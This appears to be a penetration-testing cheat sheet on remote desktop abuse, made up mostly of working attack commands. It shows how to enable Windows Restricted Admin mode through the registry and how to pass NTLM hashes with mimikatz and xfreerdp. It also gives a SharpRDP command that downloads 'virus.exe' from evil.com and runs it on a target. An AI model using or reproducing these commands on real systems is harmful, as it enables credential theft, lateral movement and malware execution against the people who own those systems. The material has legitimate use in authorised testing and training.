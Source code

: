 # Remote desktop

## Windows RDP

{% hint style="info" %}
/admin allows to not disconnect connected user
{% endhint %}

```csharp
 mstsc.exe /admin
```

### Restricted Admin

Allow to use the current user credentials session to make a network connection without entering a password.

#### Enable Restricted admin

```csharp
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

```csharp
 mstsc.exe /restrictedadmin 
```

### Using mimikatz

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## SharpRDP

### RDP in console

```csharp
SharpRDP.exe computername=target command=notepad username=domain\user password=password!
```

#### Remote code Execution

```text
sharprdp.exe computername=target command="powershell (New-Object
System.Net.WebClient).DownloadFile('http://evil.com/virus.exe',
'C:\Windows\Tasks\virus.exe'); C:\Windows\Tasks\virus.exe" username=domain\user password=password!
```



## Linux RDP

### xfreerdp

#### Domain + NTLM hash

```csharp
xfreerdp /d:domain  /u:user  /pth:NTLM_HASH  /v:DEST_IP
```

#### Local machine

```csharp
proxychains  xfreerdp   /u:b3v1l /p:Password!  /v:172.16.1.16
```

### rdesktop

```csharp
rdesktop DEST_IP   -u Domain\User -p Password
```

